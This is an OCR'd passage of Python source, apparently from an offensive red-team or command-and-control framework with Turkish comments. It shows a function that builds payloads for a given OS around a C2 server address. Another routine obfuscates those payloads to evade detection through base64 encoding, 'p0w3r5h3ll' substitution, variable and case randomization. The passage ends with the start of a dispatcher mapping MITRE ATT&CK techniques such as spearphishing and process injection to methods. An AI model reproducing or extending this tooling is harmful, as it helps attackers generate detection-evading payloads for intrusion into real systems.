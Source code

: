 ```python
        
        base_payload = payload_templates.get(payload_type, {}).get(target_os, '')
        
        if not base_payload:
            return {'error': f'Unsupported payload type: {payload_type} for {target_os}'}
        
        # C2 server bilgisini ekle
        payload_code = base_payload.format(c2_server=c2_server)
        
        # Evasion techniques uygula
        for technique in evasion_techniques:
            payload_code = self._apply_evasion_technique(payload_code, technique)
        
        # Payload hash'i hesapla
        payload_hash = hashlib.sha256(payload_code.encode()).hexdigest()
        
        payload_info = {
            'type': payload_type,
            'target_os': target_os,
            'c2_server': c2_server,
            'evasion_techniques': evasion_techniques,
            'code': payload_code,
            'hash': payload_hash,
            'generated_at': datetime.now().isoformat()
        }
        
        print(f"[+] Payload generated: {payload_type} for {target_os}")
        print(f"[+] Payload hash: {payload_hash[:16]}...")
        
        return payload_info
    
    def _apply_evasion_technique(self, payload: str, technique: str) -> str:
        """Evasion tekniği uygula"""
        evasion_methods = {
            'base64_encoding': lambda p: base64.b64encode(p.encode()).decode(),
            'string_obfuscation': lambda p: p.replace('powershell', 'p0w3r5h3ll'),
            'variable_randomization': lambda p: p.replace('$wc', f'${self._random_string(5)}'),
            'comment_injection': lambda p: f'# Random comment\n{p}\n# End comment',
            'case_randomization': lambda p: ''.join(c.upper() if i % 2 else c.lower() 
                                                  for i, c in enumerate(p))
        }
        
        if technique in evasion_methods:
            return evasion_methods[technique](payload)
        
        return payload
    
    def _random_string(self, length: int) -> str:
        """Rastgele string oluştur"""
        import random
        import string
        return ''.join(random.choices(string.ascii_letters, k=length))
    
    def execute_technique(self, operation_id: int, target_id: int, 
                         technique_id: str, parameters: Dict, operator: str) -> Dict:
        """MITRE ATT&CK tekniği uygula"""
        
        # MITRE ATT&CK technique mapping
        techniques = {
            'T1566.001': self._spearphishing_attachment,
            'T1566.002': self._spearphishing_link,
            'T1078': self._valid_accounts,
            'T1055': self._process_injection,
```